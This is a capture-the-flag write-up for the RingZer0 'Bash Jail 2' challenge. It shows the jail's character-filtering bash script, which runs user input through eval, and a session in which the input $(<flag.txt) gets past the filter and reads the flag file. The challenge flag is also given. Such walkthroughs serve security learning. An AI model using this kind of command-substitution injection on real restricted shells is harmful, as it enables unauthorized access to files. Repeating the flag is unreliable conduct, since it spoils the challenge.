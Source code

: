 # Bash Jail 2

__PROBLEM__

 User: level2
Password is the previous jail challenge flag

__SOLUTION__

```bash
➜ ssh level2@challenges.ringzer0team.com -p 10218
level2@challenges.ringzer0team.com password:

RingZer0 Team Online CTF

BASH Jail Level 2:
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

Challenge bash code:
-----------------------------

function check_space {
        if [[ $1 == *[bdks';''&'' ']* ]]
        then
                return 0
        fi

        return 1
}

while :
do
        echo "Your input:"
        read input
        if check_space "$input"
        then
                echo -e '\033[0;31mRestricted characters has been used\033[0m'
        else
                output="echo Your command is: $input"
                eval $output
        fi
done

-----------------------------
Your input:
/bin/bash
Restricted characters has been used
Your input:
ls
Restricted characters has been used
Your input:
LS
Your command is: LS
Your input:
ls
Restricted characters has been used
Your input:
LS
Your command is: LS
Your input:
CAT
Your command is: CAT
Your input:
$(flag.txt)
/home/level2/prompt.sh: line 38: flag.txt: command not found
Your command is:
Your input:
$(cat ls)
Restricted characters has been used
Your input:
$(ls)
Restricted characters has been used
Your input:
$(<flag.txt)
Your command is: FLAG-a78i8TFD60z3825292rJ9JK12gIyVI5P
Your input:
```
To Know why `$()` worked see: https://stackoverflow.com/questions/27472540/difference-between-and-in-bash

FLAG - `FLAG-a78i8TFD60z3825292rJ9JK12gIyVI5P`
